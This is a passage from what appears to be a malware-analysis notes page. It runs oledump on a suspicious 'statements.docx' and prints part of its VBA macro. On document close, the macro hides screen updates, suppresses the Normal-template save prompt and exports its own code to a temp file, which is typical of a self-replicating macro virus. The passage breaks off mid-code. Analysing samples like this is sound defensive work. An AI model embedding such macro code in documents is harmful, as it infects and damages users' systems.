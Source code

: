 |Extra data beyond FAT   |0               |Only if file is larger than FAT    |
|                        |                |coverage                           |
|Extra data offset in FAT|00006E00        |Offset of the 1st free sector at   |
|                        |                |end of FAT                         |
|Extra data size         |0               |Size of data starting at the 1st   |
|                        |                |free sector at end of FAT          |
+------------------------+----------------+-----------------------------------+
{% endhighlight %}

### statements.docx notes

#### `oledump statements.docx`

{% highlight vb linenos %}
C:\Users\vagrant\Desktop\work>oledump statements.docx
A: word/vbaProject.bin
 A1:       372 'PROJECT'
 A2:        41 'PROJECTwm'
 A3: M    7636 'VBA/ThisDocument'
 A4:      2769 'VBA/_VBA_PROJECT'
 A5:      1093 'VBA/__SRP_0'
 A6:        98 'VBA/__SRP_1'
 A7:       216 'VBA/__SRP_2'
 A8:        66 'VBA/__SRP_3'
 A9:       479 'VBA/dir'
{% endhighlight %}

#### oledump statements.docx -s A3 -v

{% highlight vb linenos %}
PS C:\Users\vagrant\Desktop\work> oledump statements.docx -s A3 -v
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "0{00020906-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
'RELAX
Private Sub RELAX2()
End
End Sub

Private Sub ComboBox1_Change()

End Sub

Private Sub Document_Close()
Call GOODSub
Call RELAX2
End Sub

Private Sub GOODSub()
On Error Resume Next
Application.ScreenUpdating = False
Application.Options.SaveNormalPrompt = False
x$ = "C:\temp.tmp"
MacroContainer.VBProject.vbcomponents.Item("ThisDocument").Export x$
Open x$ For Input As #1
keimeno = Input(LOF(1), 1)
Close #1